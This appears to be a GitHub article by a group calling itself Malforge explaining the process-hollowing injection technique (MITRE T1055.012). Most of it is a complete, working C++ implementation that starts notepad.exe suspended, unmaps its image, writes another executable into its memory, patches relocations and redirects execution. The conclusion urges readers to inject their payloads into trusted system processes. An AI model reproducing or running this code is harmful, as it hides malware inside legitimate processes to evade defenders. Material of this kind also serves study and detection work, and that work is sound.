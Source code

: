 # Process-Hollowing

## Introduction

Welcome to my new article! Today, I’ll be demonstrating the Process Hollowing technique — a popular sub-technique of process injection that has become one of the most widely used methods in recent years.

### What is?

Information by:

> Process Hollowing (Mitre:T1055.012) - Hacking Articles\
In July 2011, John Leitch of autosectools.com talked about a technique he called process
hollowing in his whitepaper, [hackingarticles.in](https://www.hackingarticles.in/process-hollowing-mitret1055-012/)

The core concept behind process hollowing is relatively simple. In this technique, an attacker starts by creating a new process in a suspended state. The legitimate process image is then unmapped—or 'hollowed out'—from memory. The attacker then writes malicious code into the emptied memory space and resumes the process, causing it to execute the injected payload instead of its original code.

### Injection Steps:

- Injecting the shellcode into target process
- Retrieve ImageBaseAddress of the executable image
- Read executable image of the remote process into a buffer
- Unmap executable image from the process
- Hook somewhere of the copied image so it will jump to shellcode
- Remap the section into the remote process using above techniques

![image](https://github.com/user-attachments/assets/5306c13d-38ab-4195-b055-d953b1b70268)

---

## Code

Code by:

> Process Hollowing and Portable Executable Relocations\
Code injection, [ired.team](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

```c++
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>

using NtUnmapViewOfSection = NTSTATUS(WINAPI *)(HANDLE, PVOID);

typedef struct BASE_RELOCATION_BLOCK
{
    DWORD PageAddress;
    DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY
{
    USHORT Offset : 12;
    USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
    // create destination process - this is the process to be hollowed out
    LPSTARTUPINFOA si = new STARTUPINFOA();
    LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
    PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
    DWORD returnLenght = 0;
    CreateProcessA(NULL, (LPSTR) "c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
    HANDLE destProcess = pi->hProcess;

    // get destination imageBase offset address from the PEB
    NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
    DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8;

    // get destination imageBaseAddress
    LPVOID destImageBase = 0;
    SIZE_T bytesRead = NULL;
    ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

    // read source file - this is the file that will be executed inside the hollowed process
    HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ, NULL, NULL, OPEN_ALWAYS, NULL, NULL);
    DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
    LPDWORD fileBytesRead = 0;
    LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
    ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);

    // get source image size
    PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
    PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
    SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

    // carve out the destination image
    NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
    myNtUnmapViewOfSection(destProcess, destImageBase);

    // allocate new memory in destination image for the source image
    LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    destImageBase = newDestImageBase;

    // get delta between sourceImageBaseAddress and destinationImageBaseAddress
    DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

    // set sourceImageBase to destImageBase and copy the source Image headers to the destination image
    sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
    WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

    // get pointer to first source image section
    PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
    PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
    int err = GetLastError();

    // copy source image sections to destination
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);
        PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
        WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);
        sourceImageSection++;
    }

    // get address of the relocation table
    IMAGE_DATA_DIRECTORY relocationTable = sourceImageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

    // patch the binary with relocations
    sourceImageSection = sourceImageSectionOld;
    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
    {
        BYTE *relocSectionName = (BYTE *)".reloc";
        if (memcmp(sourceImageSection->Name, relocSectionName, 5) != 0)
        {
            sourceImageSection++;
            continue;
        }

        DWORD sourceRelocationTableRaw = sourceImageSection->PointerToRawData;
        DWORD relocationOffset = 0;

        while (relocationOffset < relocationTable.Size)
        {
            PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);
            relocationOffset += sizeof(BASE_RELOCATION_BLOCK);
            DWORD relocationEntryCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
            PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)((DWORD)sourceFileBytesBuffer + sourceRelocationTableRaw + relocationOffset);

            for (DWORD y = 0; y < relocationEntryCount; y++)
            {
                relocationOffset += sizeof(BASE_RELOCATION_ENTRY);

                if (relocationEntries[y].Type == 0)
                {
                    continue;
                }

                DWORD patchAddress = relocationBlock->PageAddress + relocationEntries[y].Offset;
                DWORD patchedBuffer = 0;
                ReadProcessMemory(destProcess, (LPCVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), &bytesRead);
                patchedBuffer += deltaImageBase;

                WriteProcessMemory(destProcess, (PVOID)((DWORD)destImageBase + patchAddress), &patchedBuffer, sizeof(DWORD), fileBytesRead);
                int a = GetLastError();
            }
        }
    }

    // get context of the dest process thread
    LPCONTEXT context = new CONTEXT();
    context->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(pi->hThread, context);

    // update dest image entry point to the new entry point of the source image and resume dest image thread
    DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
    context->Eax = patchedEntryPoint;
    SetThreadContext(pi->hThread, context);
    ResumeThread(pi->hThread);

    return 0;
}
```

Step 1: Creating a new process in a suspended state:
  - `CreateProcessA()` with `CREATE_SUSPENDED` flag set

Step 2: Swap out its memory contents (unmapping/hollowing):
  - `NtUnmapViewOfSection()`

Step 3: Input malicious payload in this unmapped region:
  - `VirtualAllocEx` : To allocate new memory
  - `WriteProcessMemory()` : To write each of malware sections to target the process space

Step 4: Setting EAX to the entrypoint:
  - `SetThreadContext()`

Step 5: Start the suspended thread:
  - `ResumeThread()`

---

## Conclusion

Below are all the steps and code needed to perform process hollowing. I suggest using this technique to inject your payload into either trusted system processes or custom processes you spawn yourself.

Thank You For Reading! :)

**- Malforge Group**

